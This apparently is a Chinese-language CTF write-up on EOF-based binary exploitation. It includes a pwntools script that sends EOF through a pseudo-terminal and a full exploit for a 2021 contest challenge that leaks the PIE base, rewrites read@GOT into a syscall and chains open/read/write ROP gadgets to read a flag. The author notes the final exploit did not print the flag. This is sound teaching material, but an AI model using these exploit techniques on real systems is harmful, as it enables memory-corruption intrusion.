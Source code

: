 

# 二进制安全 - EOF 利用 - 先知社区

二进制安全 - EOF 利用

- - -

# EOF 利用

## 背景知识

EOF 代表 End of File，是一个在计算机科学中常见的术语，用于指示文件的结束。EOF 信号是在文件或输入流中的数据结束时发出的信号。当程序读取文件或输入流时，它会在遇到文件的末尾时收到 EOF 信号，从而知道已经到达了文件的结束。  
EOF 信号的具体表示方式，可以根据不同的操作系统和编程语言而有所不同。

pwn 中的 EOF 有两种  
一种是 EOF 之后，还可以接着输入数据，但是只能本地用，无法远程。  
一种是直接关闭输入流，那么发送 EOF 之后，之后就无法向程序输入数据。

## eof 发送后继续输入

### demo

```plain
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(void) 
{
   char buf[24];
   while(1) 
    {
      if(read(0,buf,16)==0) 
      {
         break;
      }
   }
   read(0,buf,1000);
   return 0;
}
```

read 返回值：  
返回值为读取的字节数，如果到达文件末尾 (EOF)，则返回 0。  
如果出现错误，返回 -1，并设置 errno 变量以指示错误的类型  
这里我们输入正常的数据并不会跳出循环，而是会一直判断

[![](assets/1706957890-9c5f12aeffe2f1ae2b34e1ce6f0f62b8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202115253-8acc7d28-c17e-1.png)  
这里我们利用 stdin=PTY 指定标准输入连接到一个伪终端。  
这可以在模拟终端输入的环境中执行程序。  
然后我们输入 EOF 信号后

```plain
p = process("./pwn",stdin=PTY,raw=False)
p.send(chr(tty.CEOF))
```

这里 raw=False 是输入和输出不进行任何处理，字节直接传递

[![](assets/1706957890-bbc7a38347a49d6a1fec34a798026082.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202115313-970ab000-c17e-1.png)  
可以发现确实跳出了循环

### exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *
import tty

context.os = 'linux'
context.log_level = "debug"

#context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

def duan():
    gdb.attach(p)
    pause()

p = process("./pwn",stdin=PTY,raw=False)
p.send(chr(tty.CEOF))
p.clean()

p.interactive()
```

## eof 发送后结束输入

利用一个例题了来分析这种利用方法  
\[广东强网杯 2021 个人决赛\]server

### 思路

[![](assets/1706957890-1d76131b26a893334ba7704fb77bf087.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202115347-ab27b6aa-c17e-1.png)

[![](assets/1706957890-9a4f5a83effe788caadda9f959acd050.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202115353-ae7544a8-c17e-1.png)  
这里就是可以泄露出 password 的地址，但是因为后面 read 的返回值大于 0，所以就一直循环  
也可以让 read 返回 0，但是之后程序便无法运行，所以只能提前布置好 rop

```plain
ru('Username: ')
sl('r00t')
ru('Password: ')
sl('k')
ru('[*] Gift: ')
pie_base = int(p.recv(14), 16)-0x4090
leak('pie_base ',pie_base)
```

首先先去泄露 pie，然后利用下面这个 magicgadget 去修改 read 的 got 表变成 syscall

[![](assets/1706957890-95f06898d4df13445a3097c53c0195b6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202115416-bc71a344-c17e-1.png)

[![](assets/1706957890-64f72ccde7584550ab603868739b595a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202115422-c001bb66-c17e-1.png)  
这里就是利用了 read 的 got 表去写 syscall

[![](assets/1706957890-8599a57ce9843b620ca5635591e9ee76.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202115430-c496b820-c17e-1.png)  
然后最后执行就可以，不过貌似出了点小问题，没法打印 flag，不过也是学到了这个知识点和一个 magicgadget 的应用

### exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

#context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
        context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process('./pwn')
#p=remote('node4.anna.nssctf.cn',28819)
libc=ELF('./libc.so.6')

def duan():
    gdb.attach(p)
    pause()

sla(b'Username: ', b'r00t')
sla(b'Password: ', b'flag')
ru('[*] Gift: ')
pie_base = int(p.recv(14), 16)-0x4090
leak('pie_base ',pie_base)
#duan()

rdi = pie_base + 0x1613
ret = pie_base + 0x101a
rax = pie_base + 0x1239
rdx = pie_base + 0x123b
rsi_r15 = pie_base + 0x1611
magic = pie_base + 0x1232
flag = pie_base + 0x4090
buf = pie_base + 0x40A0

sl(str(0x500))
# read@got -> syscall
payload = b'a'*0x38 + p64(rdi) + p64(pie_base + 0x4040) + p64(rax) + p64(0x10) + p64(magic)
# open
payload += p64(rax) + p64(2) + p64(rsi_r15) + p64(0)*2 + p64(rdx) + p64(0) + p64(rdi) + p64(flag) + p64(pie_base + 0x4040)
# raed
payload += p64(rax) + p64(0) + p64(rsi_r15) + p64(buf)*2 + p64(rdx) + p64(0x50) + p64(rdi) + p64(3) + p64(pie_base + 0x4040)
# write
payload += p64(rax) + p64(1) + p64(rsi_r15) + p64(buf)*2 + p64(rdx) + p64(0x50) + p64(rdi) + p64(1) + p64(pie_base + 0x4040)
#sleep(0.2)
#duan()
sla(b'[IN] ', payload)
p.shutdown('send')

print(p.recv())
print(p.recv())

itr()
```
